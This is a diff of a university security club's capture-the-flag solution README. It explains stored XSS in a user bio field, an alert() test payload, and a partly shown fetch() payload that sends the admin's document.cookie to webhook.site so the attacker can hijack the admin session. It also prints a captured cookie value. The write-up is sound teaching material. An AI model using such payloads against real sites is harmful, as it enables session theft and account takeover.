

Before and after one commit to UMD-CSEC/tweeter, a Markdown page: solution/README.md, 2 parts joined by grey strips. Shown: that part at 86% size. GitHub-like rendering; pictures changed too: solution/request-in-webhooksite-panel.png (added), solution/xss-poc.png (added); blank space fills up the shorter version.

Commit message:
add images to solution

````diff
--- a/solution/README.md
+++ b/solution/README.md
@@ -5,12 +5,14 @@ Thanks for coming to our first meeting! We hope you learned something, even if y
 ## Finding the vulnerability
 The website doesn't have too much functionality: you can sign up, log in, make posts, change your password, and edit your bio. Testing for XSS is essentially just putting `<script>alert(document.domain)</script>` into all the fields you can. In this case, the vulnerable field is the user bio, and the payload is triggered when visiting your profile.
 
+![JavaScript alert triggered from tweeter.umdctf.io](xss-poc.png)
+
 ## Building the exploit
 Now that we can execute JavaScript, we need a way to log in as the admin. The website distinguishes users by their cookies, so we just need to steal the admin's cookies and set our cookies to be the same.
 
 In JavaScript, website cookies can be accessed through the `document.cookie` property, which you can read more about [here](https://developer.mozilla.org/en-US/docs/Web/API/Document/cookie).
 
-We also need some way to send the cookies back to us, since we don't have access to the admin's computer. This can be done by sending a request with the admin's cookies to somewhere that lets us monitor requests, such as webhook.site. The payload for this is below:
+We also need some way to send the cookies back to us, since we don't have access to the admin's computer. This can be done by sending a request with the admin's cookies to somewhere that lets us monitor requests, such as [webhook.site](https://webhook.site). The payload for this is below:
 ```html
 <script>
 	fetch(
@@ -24,9 +26,11 @@ We can break this down as follows:
 - The third line is the URL of our webhook, with `?cookies=` added to the end. The question mark denotes the start of the query parameters, where we can put our cookies. Then `cookies=` starts a parameter with the name `cookies`.
 - The fourth line encodes the value `document.cookie` to be put in the URL parameter.
 
-# Running the Exploit
+## Running the Exploit
 We put the payload above in our bio and send the link to our profile to the admin. When the admin visits the link, the payload will execute and send a request which will show up in our webhook.
 
-Inspecting the request in the webhook.site panel, we can see the value of the `cookie` query parameter is `user=YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`. Recall that cookies are of the form `key=value`, so the admin's cookie is `YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`.
+![Image of webhook.site panel, showing the location of the query parameters](request-in-webhooksite-panel.png)
+
+Inspecting the request in the webhook.site panel, we can see the value of the `cookie` query parameter is `user=YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`. The `document.cookie` property puts cookies in the form `key=value`, so the admin's cookie is `YSH+uCoYHrhxCYY9O6%2FrhimfpoLULLQ7cCVngV4AD24%3Dadmin`.
 
 After setting your user cookie to the admin's cookie (instructions for [Chrome](https://developer.chrome.com/docs/devtools/application/cookies/) and [Firefox](https://firefox-source-docs.mozilla.org/devtools-user/storage_inspector/cookies/index.html)) and reloading, you'll be logged in as the admin. Now you can head over to the "Manage Users" link and give yourself Blue.
````
